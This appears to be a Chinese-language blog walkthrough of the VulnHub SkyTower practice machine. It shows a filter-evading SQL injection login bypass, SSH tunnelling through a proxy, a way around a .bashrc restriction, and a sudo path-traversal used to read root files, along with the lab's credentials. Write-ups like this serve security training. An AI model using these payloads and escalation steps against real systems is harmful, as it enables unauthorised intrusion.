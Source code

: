 ```yaml
---
layout: post
title:  "vulnhub >_ SkyTower"
description: walkthrough
category: vulnhub
---
```

# SkyTower

![image-20200720020833766]({{ site.url }}/assets/SkyTower.assets/image-20200720020833766.png)

![image-20200720021033516]({{ site.url }}/assets/SkyTower.assets/image-20200720021033516.png)

![image-20200720021249255]({{ site.url }}/assets/SkyTower.assets/image-20200720021249255.png)

![image-20200720021306614]({{ site.url }}/assets/SkyTower.assets/image-20200720021306614.png)

![image-20200720022616200]({{ site.url }}/assets/SkyTower.assets/image-20200720022616200.png)

简单的登录框输入`'`,测试出了注入点

使用burpsuit尝试绕过登录，但是在处理过程中发现，一些符号和词语被过滤了

![image-20200720025731777]({{ site.url }}/assets/SkyTower.assets/image-20200720025731777.png)



![image-20200720030016698]({{ site.url }}/assets/SkyTower.assets/image-20200720030016698.png)

首先是`or`应该被去除了，然后是`=`和`--`也被去除了

这时我们可以使用`||`替换`or`注释符号则只使用`#`

但是没有办法替换掉`=`

最终尝试出的payload应为

`' || 1=1#`

成功绕过，得到ssh账户凭证

![image-20200720031236840]({{ site.url }}/assets/SkyTower.assets/image-20200720031236840.png)

```bash
Username: john
Password: hereisjohn
```



```bash
ssh john@192.168.43.93
```

但是我们在扫描是发现，ssh端口是被过滤掉的

![image-20200720031437222]({{ site.url }}/assets/SkyTower.assets/image-20200720031437222.png)

而3128端口提供给我们一个代理

使用代理进行ssh转发

```bash
proxytunnel -p 192.168.43.93:3128 -d 127.0.0.1:22 -a 2222
```

重新链接本地端口

```bash
ssh -p 2222 john@127.0.0.1
```

![image-20200720032646942]({{ site.url }}/assets/SkyTower.assets/image-20200720032646942.png)

成功登录，但是shell会立即断开

尝试使用`/bin/bash`作为参数

重新链接

```
ssh -p 2222 john@127.0.0.1 /bin/bash
```

![image-20200720033105977]({{ site.url }}/assets/SkyTower.assets/image-20200720033105977.png)

这样得到的shell并不完整，这通常应该是bashrc中做了一些设置

查看一下

![image-20200720034056125]({{ site.url }}/assets/SkyTower.assets/image-20200720034056125.png)

通常删除用户bashrc后会有系统重新有系统默认的/etc/bash.bashrc

我们备份一下并重新登录

![image-20200720034300639]({{ site.url }}/assets/SkyTower.assets/image-20200720034300639.png)

```bash
ssh -p 2222 john@127.0.0.1
```

在网页服务目录下的login.php页面直接发现数据库凭证

登录数据库

```bash
mysql -u root -p
```





![image-20200720040742438]({{ site.url }}/assets/SkyTower.assets/image-20200720040742438.png)

只有root，其他库

![image-20200720213103817]({{ site.url }}/assets/SkyTower.assets/image-20200720213103817.png)

```bash
sara:ihatethisjob
william:senseable  
```

不能su

![image-20200720215346782]({{ site.url }}/assets/SkyTower.assets/image-20200720215346782.png)

登录了一下网页，密码是一样的。是ssh凭证没问题。登录ssh

还是和之前的操作一样需要rm掉bashrc

ssh登录成功

![image-20200720223253848]({{ site.url }}/assets/SkyTower.assets/image-20200720223253848.png)

可以cat或者ls。我们可以利用`..`

```bash
sudo /bin/ls /accounts/../root
```

![image-20200720223434831]({{ site.url }}/assets/SkyTower.assets/image-20200720223434831.png)

```bash
sudo /bin/cat /accounts/../root/flag.txt
```

![image-20200720224947867]({{ site.url }}/assets/SkyTower.assets/image-20200720224947867.png)

![image-20200720225025791]({{ site.url }}/assets/SkyTower.assets/image-20200720225025791.png)